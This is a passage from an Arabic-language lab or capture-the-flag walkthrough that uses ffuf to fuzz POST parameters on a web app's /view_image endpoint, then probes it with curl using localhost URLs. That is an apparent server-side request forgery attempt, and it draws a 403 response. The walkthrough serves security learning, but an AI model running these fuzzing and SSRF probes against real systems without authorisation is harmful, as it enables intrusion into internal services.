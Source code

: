 ```bash
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.212.25:8080/view_image
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=http://localhost
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 823
________________________________________________

:: Progress: [6453/6453] :: Job [1/1] :: 136 req/sec :: Duration: [0:00:40] :: Errors: 0 ::
```
الواضح أن ماعندنا parameters تنفع من هذا الملف، خليني أجرب ملف ثاني:
```bash
$ ffuf -u http://10.10.212.25:8080/view_image -d "FUZZ=http://localhost" -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt  -t 20 -H "Content-Type: application/x-www-form-urlencoded" -fs 823

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.212.25:8080/view_image
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=http://localhost
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 823
________________________________________________

www                     [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 125ms]
```
أنا كل ما اخترقت أشياء أكثر كل ماوقعت في حب الكود هذا 403، خليني أرسل طلب باستخدام curl وأشوف رد السيرفر:
```bash
$ curl http://10.10.212.25:8080/view_image -d "www=http://localhost:8080/gallery"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don&#x27;t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```